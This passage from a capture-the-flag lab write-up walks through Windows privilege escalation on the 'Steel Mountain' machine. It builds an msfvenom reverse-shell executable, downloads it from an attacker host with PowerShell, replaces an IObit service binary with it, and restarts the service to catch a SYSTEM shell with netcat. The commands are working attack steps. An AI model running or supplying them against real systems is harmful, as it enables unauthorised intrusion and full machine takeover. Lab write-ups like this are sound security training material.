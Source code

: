 #### Creating paylod

using msfconsole, we can make our payload:
```
msfvenom -p windows/shell_reverse_tcp LHOST=attacker_machine_ip LPORT=attacker_machine_port -f exe -o Advanced.exe
```
To transfer this payload, we need to run the python server so that we are able to access this payload from the shell of target machine. Command to run python server:
```
python -m http.server 8000
```
Now inside the shell of target machine, run the followind command to copy the payload from attacker's machine:
```
powershell -NoP -NonI -C "Invoke-WebRequest -Uri 'http://attacker_machine_ip:attacker_machine_port/Advanced.exe' -OutFile $env:USERPROFILE\\Desktop\\ASCService.exe"
```
Now I copied this payload to the desired path where legitimate exe file was present, I overwrite that with my payload:
`copy ASCService.exe "C:\Program Files (x86)\IObit\Advanced SystemCare"`
#### Error resolution: 
If you get error while copying it, then first stop the service and then try to copy. Command to stop the service is given ahead.

Now, I stopped the service using the command:
`net stop AdvancedSystemCareService9`
Now, run the netcat on our attacking machine, I ran with the command:

```
nc -lvnp 4443
```

Now, start the service using the command:
```
net start AdvancedSystemCareService9
```

Boom! We've got the root shell at our attacking machine.
![Alt text](../Screenshots/Steel_Mountain/root_shell.png)

Now, to get the flag, move the path "C:\Users\Administrator\Desktop", and run following command:
```
type root.txt
```
Here's the flag!.
